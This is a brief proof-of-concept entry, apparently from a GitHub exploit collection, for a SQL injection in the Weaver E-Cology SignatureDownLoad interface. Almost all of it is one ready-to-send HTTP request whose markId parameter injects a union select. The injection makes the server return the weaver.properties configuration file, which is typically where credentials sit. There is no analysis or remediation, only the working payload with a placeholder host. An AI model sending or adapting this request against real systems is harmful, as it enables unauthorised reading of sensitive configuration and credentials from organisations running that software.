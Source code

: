 # weaver_SignatureDownLoad_sqli

from: https://github.com/wy876/POC/blob/83ffd34e35da0bb8b1f8325dd4810e31b0d8a01a/%E6%B3%9B%E5%BE%AEE-Cology%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3SignatureDownLoad%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.5.20

```
GET /weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
```
